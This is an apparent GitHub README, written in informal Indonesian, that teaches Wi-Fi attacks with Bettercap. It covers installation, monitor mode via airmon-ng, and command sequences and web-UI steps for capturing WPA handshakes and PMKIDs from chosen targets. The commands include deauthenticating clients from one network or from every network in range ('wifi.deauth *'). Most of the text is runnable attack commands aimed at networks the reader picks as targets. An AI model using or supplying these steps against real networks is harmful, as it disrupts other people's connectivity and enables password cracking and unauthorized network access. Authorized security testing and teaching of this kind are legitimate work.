 # Bettercap

![bettercap logo](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/bettercap%20logo.jpg)

[Bettercap](https://www.bettercap.org/) adalah sebuah framework yang kuat, mudah diperluas, dan portabel yang ditulis dalam [Go](https://id.wikipedia.org/wiki/Go_(bahasa_pemrograman)) yang bertujuan untuk menawarkan kepada peneliti keamanan, red teamer, dan reverse engineer sebuah solusi all-in-one yang mudah digunakan dengan semua fitur yang mungkin mereka perlukan untuk melakukan rekognisi dan menyerang jaringan [Wi-Fi](https://en.wikipedia.org/wiki/Wi-Fi), perangkat [Bluetooth Low Energy](https://en.wikipedia.org/wiki/Bluetooth_Low_Energy), perangkat [HID nirkabel](https://en.wikipedia.org/wiki/USB_human_interface_device_class), [CAN-bus](https://en.wikipedia.org/wiki/CAN_bus), dan jaringan [IPv4](https://en.wikipedia.org/wiki/IPv4)/[IPv6](https://en.wikipedia.org/wiki/IPv6).

## Instalasi

Kali Linux:

1. Pake packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt-get install bettercap bettercap-dbgsym bettercap-caplets bettercap-ui
   bettercap -version
   ```

2. Pake Go:

   ```
   sudo apt-get update
   sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
   go install github.com/bettercap/bettercap/v2@latest
   sudo mv ~/go/bin/bettercap /usr/local/bin/
   bettercap -version
   ```

Untuk info lebih lengkapnya lagi bisa liat di sini: [https://www.bettercap.org/project/installation/](https://www.bettercap.org/project/installation/)

## Penggunaan

Sebelum pake Bettercap, kita harus mengaktifkan mode monitor dulu pake:

```
sudo airmon-ng check kill
sudo airmon-ng start [interface]
```

### 1. Mode Interaktif

Mode interaktif adalah mode pada Bettercap di mana kita pake sesi interaktif dan masukin perintahnya secara manual (interaktif).

Jalanin:

```
sudo bettercap
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

#### Capture Handshake

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth [bssid]
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
set wifi.assoc.skip *
wifi.deauth *
```

#### Capture PMKID

Single target:

```
set wifi.handshakes.file [output_file]
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

Semua target:

```
set wifi.handshakes.file [output_dir]
set wifi.handshakes.aggregate false
wifi.recon on
set ticker.commands "clear; wifi.show"
ticker on
ticker off
wifi.assoc *
```

### 2. Opsi Caplet

Caplet adalah sekumpulan perintah Bettercap yang disimpen di file yang berekstensi `.cap`. Fungsinya itu buat mengotomatisasi eksekusi perintah-perintah yang ada di Bettercap, biar kita kaga usah lagi mengetikkan perintah satu-satu secara manual.

Jalanin:

```
sudo bettercap -caplet [file_caplet]
```

> Kalo muncul output error kaya gini `No active interfaces found.`. Pake opsi `-iface [interface]`.

Contoh file capletnya ada di sini: [https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/caplet.cap)

### 3. Mode WEB UI

Mode Web UI adalah mode di Bettercap yang menyediakan tampilan web, tujuannya itu biar kita bisa pake Bettercap lewat browser.

Jalanin:

```
sudo bettercap -eval "ui on"
```

1. Arahkan kursor ke link yang ada di bagian `web ui starting on`, yaitu `http://127.0.0.1:80`, terus klik kanan dan pilih `Open Link`.

   ![img 1](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%201.png)
2. Masukkan kredensial login:
   - Usermame: `user`
   - Password: `pass`

   ![img 2](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%202.png)
3. Klik ikon Wi-Fi:

   ![img 3](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%203.png)
4. Pilih interface yang ingin dipake dengan klik menu dropdown:


   ![img 4](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%204.png)
5. Mulai scanning Wi-Fi dengan klik ikon play:

   ![img 5](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%205.png)
6. Di gambar ini ada beberapa bagian, yaitu:

   ![img 6](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%206.png)

   - `RSSI`: Kekuatan sinyal dari Access Point (AP) dalam satuan [dBm](https://en.wikipedia.org/wiki/DBm).
   - `ESSID`: Nama Wi-Fi.
   - `BSSID`: Alamat MAC unik dari AP.
   - `Vendor`: Produsen AP berdasarkan BSSID.
   - `Encryption`: Jenis enkripsi yang dipake oleh Wi-Fi.
   - `Ch`: Channel yang dipake oleh AP.
   - `Clients`: Jumlah klien yang terhubung ke AP.
   - `Sent`: Jumlah paket data yang dikirim dari klien ke AP.
   - `Recvd`: Jumlah paket data yang diterima dari AP oleh klien.
   - `Seent`: Jumlah paket yang terdeteksi dari klien atau AP selama proses pemantauan.
8. Di sini, kita harus pilih BSSID target yang ingin diserang, terus klik menu dropdownnya:

   ![img 7](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%207.png)
9. Di sini, kita bisa lakuin dua jenis serangan, yaitu:
   - Capture Handshake
   - Capture PMKID
  
   ![img 8](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%208.png)

   Kalo mau Capture Handshake, klik yang `Deauthenticate Client`. Kalo mau Capture PMKID, klik yang `Associate`. Dalam kasus ini, gw bakal pilih `Capture Handshake`.
   
   > Catatan:
   >
   > - Capture Handshake: Harus ada 1 klien yang aktif.
   > - Capture PMKID: Kaga semua router mendukung PMKID.
10. Abis klik `Deauthenticate Client`, tungguin ampe handshakenya berhasil dicapture. Handshake dianggap berhasil dicapture kalo muncul ikon `kunci merah` dibagian `Encryption` dan nongol notifikasi `Captured handshake for station...`:

    ![img 9](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%209.png)
    
11. Klik ikon Events:

    ![img 10](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2010.png)
12. Klik salah satu dari 3 `Type` yang warna merah di bagian pesannya yang `Captured handshake for...`:

    ![img 11](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2011.png)
13. Dari gambar ini, keliatan kalo file handshakenya disimpan di direktori: `/root` dan nama filenya adalah: `bettercap-wifi-handshakes.pcap`.

    ![img 12](https://github.com/fixploit03/Wi-Fi-Hacking/blob/main/bettercap/img/ui%2012.png)
